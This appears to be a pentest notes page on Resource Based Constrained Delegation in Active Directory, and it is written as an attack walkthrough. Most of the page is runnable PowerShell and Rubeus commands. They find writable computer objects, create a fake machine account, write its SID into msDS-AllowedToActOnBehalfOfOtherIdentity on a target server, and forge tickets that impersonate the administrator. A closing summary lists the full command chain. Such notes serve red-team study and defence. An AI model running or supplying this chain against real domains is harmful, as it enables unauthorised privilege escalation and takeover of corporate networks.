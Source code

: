 # Resource Based Constrained Delegation (RBCD)

## Resource Based Constrained Delegation (RBCD)

RBCD needs to happen from a computer account or a service account with a SPN.\
\
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.\
\
\
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service\
\
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.\
\
&#x20;→ SeEnableDelegationPrivilege permissions are not required\
&#x20;→ RBCD can typically be configured by the backend service administrator instead\
&#x20;→ the frontend service must have an SPN set in the domain > Computer Account\
\
\
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.\
\
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path**&#x20;

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  (user can add up to 10 computers by default)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :\
\
\- Constrained Delegation = SPN on the frontend service (msDSAllowedToDelegateTo propriety)\
\- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](<../../../../.gitbook/assets/image (105).png>)

#### Computer Domain Join&#x20;

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](<../../../../.gitbook/assets/image (142).png>)

### Create a new machine account

#### Load powermad

```csharp
. .\powermad.ps1
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](<../../../../.gitbook/assets/image (293).png>)

![](<../../../../.gitbook/assets/image (5).png>)

`msDS-AllowedToActOnBehalfOfOtherIdentity` property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer -Properties objectsid | Select -Expand objectsid
```

![](<../../../../.gitbook/assets/image (257) (1).png>)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](<../../../../.gitbook/assets/image (102).png>)

* convert it into a byte array to match the format for the `msDS-AllowedToActOnBehalfOfOtherIdentity` property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

```
Get-DomainComputer -Identity file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
$RBCD  = Get-DomainComputer file05 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
$Descriptor.DiscretionaryAcl
```

![](<../../../../.gitbook/assets/image (118).png>)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](<../../../../.gitbook/assets/image (246).png>)

### &#x20;Commands summary

```csharp
New-MachineAccount -MachineAccount polo1 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-DomainComputer -Identity polo1
$sid =Get-DomainComputer -Identity polo1 -Properties objectsid |Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity TARGETSERVER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$RBCDbytes = Get-DomainComputer polo1 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
```

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}





